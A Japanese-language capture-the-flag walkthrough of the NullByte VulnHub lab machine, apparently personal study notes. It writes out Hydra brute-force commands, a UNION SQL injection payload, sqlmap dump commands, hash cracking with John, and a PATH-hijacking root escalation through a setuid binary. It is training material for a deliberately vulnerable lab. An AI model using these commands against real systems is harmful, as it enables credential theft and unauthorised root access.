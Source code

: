 ## NullByte  760~
### ポートスキャンまでは同じ
- 80,111,777,4474

### Webサイトを見る
- `ctrl + u`でHTMLソースコードが見れるので、チェックする。ここには画像であるmain.gifぐらいしかないが、、

### dirbで使うコンテンツ辞書を見てみる
- `wc /usr/share/dirb/wordlists/*.txt`
- ひとつ具体的に見てみる
- `head /usr/share/dirb/wordlists/small.txt`
```
0
00
```
- これは`http://192.168.56.108/0`,`http://192.168.56.108/00`のように順に入っていく
### dirb
- gobusterみたいに隠しサイトを見つけてくるもの
- `dirb http://$IP /usr/share/dirb/wordlists/small.txt`
  - デフォルトのwordlists使うと終わらない 
- phpMyAdmin,javascript,uploadsディレクトリが見つかる、今はどうしようもないので後で使う


### 怪しい画像ファイルを調査する
- 画像サイトでソースを見る ショートキーの`ctrl + u`それでmain.gifであることがわかる
- `wget http://$IP:80/main.gif`
- ファイルを調べる、どちらでもいいがexiftoolの方が有能
  - stringコマンドはファイルの中に文字列があるのを抜き出してくる`strings main.gif`
  - `exiftool main.gif` exiftoolコマンドは画像などのメタデータを調べるコマンド
- 謎のコメントが得られる`kzMb5nVYJw`

### Webサイト 
- さっきのを最後につけてサイトを見る

### SecListをダウンロードする
- パスワードの辞書
- `cd ~/vulnhub`
- `wget https://github.com/danielmiessler/SecLists/archive/refs/heads/master.zip`
- `unzip master.zip`

### Hydraで攻略
- HTMLソース(ctrl + u)のコメントに使うツールのヒントが書かれている
- WebサイトのHTMLソースからindex.phpのkeyにパスワードが送信されていることがわかる
- `hydra -l test -P ~/vulnhub/SecLists-master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt $IP 
http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"` 
  - ここでは１箇所しか入力するところがないので、ユーザ名は適当なtestという名前を入れている
  - `key=^PASS^`はhtmlのソースにあるkeyに辞書のパスワードが順に入ることになる
- パスワードがわかる `elite`
- webサイトにパスワードがあるので、入力する

### 得られたkeyで認証する
- search for usernamesページ
```html
<p>Search for usernams: </p>
<hr>
<form action="420search.php" method="get">
Enter username:<br>
<input type="text" name="usrtosearch">
</form>
```
- getメソッドを使っているのでhydraは使わないのがわかる
- 空のまま`Enter`を押すと、とりあえずuser名がわかる
  - `ramses` `isis` 
- リンクを見たら最後に`php?usrtosearch=`となっている、ここの最後にいろいろ入力してみる
  - SQLインジェクションの典型的なコードを入力してみる`1' OR 'a'='a`
  - 特に何も起こらない
  - `'`
  - これも何も起こらない
  - `"`
  - これでエラーを吐き出すのでSQLInjectionができることがわかる 

### 次の攻略1または2のどちらかを使う
### SQLインジェクション攻撃でユーザ名を列挙する(攻略1)
- 次の二つのどちらでもいい
1. ブラウザのリンク欄に次のを入力する
- `http://192.168.56.108/kzMb5nVYJw/420search.php?usrtosearch="union select concat(id,'_',user,'_',pass,'_',position), null, null from users;-- -`
2. サイトの入力欄に入力する
- `"union select concat(id,'_',user,'_',pass,'_',position), null, null from users;-- -`
- 注意点
  - ダブルクォーテーションが片方にしかないのに注目
  - `;-- -`の部分は`;#`でもOK
- ramsesのpassをコピーする

### SQLMapツールで突破する(攻略2)
- データベースの中身を確認する
- `sqlmap -u "http://192.168.56.108/kzMb5nVYJw/420search.php?usrtosearch=" --dbs`
- sethのデータベースの中身を見る
- `sqlmap -u "http://192.168.56.108/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users -C id,position,user,pass --dump`
- いろいろ聞かれるが、全部`y`を入力して押す
- ramsesのpassをコピーする

### Base64でデコードする
- 上でコピーしたのがなぜBase64を使うのはよくわからん。多分どこかに書いてあるのだと思うが、、
- `echo -n "ペースト=" | base64 -d`
  - ペーストした最後に`=`イコールをつける、理由は6の座学にあり
  - うまく変換できていれば、hash.txtに保存する
- `echo -n "ペースト=" | base64 -d > hash.txt`  

### パスワードの解析
- `sudo john --format=raw-md5 hash.txt`
  - hash.txtに書き込んだのはmd5という形式の暗号化である
  - 過去に解読してる場合`sudo john --show --format=raw-md5 hash.txt`

### ssh
- `ssh ramses@192.168.56.108 -p 777`
  - ポート番号に注意

### システム内を探索する
- フォルダを探索する
- `sudo -l`
  - パスワードがわからない 
- SUIDを探す
  - `find / -perm -u=s -type f 2> /dev/null` 順番も合ってないとエラーになるので注意
  - 怪しいコマンドがある 
- `cat .bash_hitory`
  - 謎のコマンドを実行していることがあるので、大きなヒントになる 

### 怪しいプログラムを調べる
- SUIDで探した怪しいファイル、backupを見る
  - `cd /var/www/backup`
- 謎のコマンドが実行されている `./procwatch`
- これはどこかで見たことのあるコマンド?これは完全にバグで、これを利用する
- `ls -al` SUIDファイルであることがわかる
- `echo $PATH`
  - PATHは左から順に読み込まれるので、/tmpディレクトリをはじめに置いて、そこに偽のpsコマンド(ファイル)をおく 
- psコマンドをどこからでも呼べるためにパスを通す
  - `export PATH=/tmp:$PATH`
- `echo $PATH`
- pcコマンドのファイルにシェル(sh)を実行できるように書き込む
  - `echo "/bin/sh" > /tmp/ps`
- `chmod 777 /tmp/ps`
- ./procwatchを実行すると、裏でpsファイルが呼ばれて、そこにはshが書かれているので、shが実際は実行される
  - `./procwatch` 
### 権限の昇格
- `cd /root`
- `cat proof.txt`

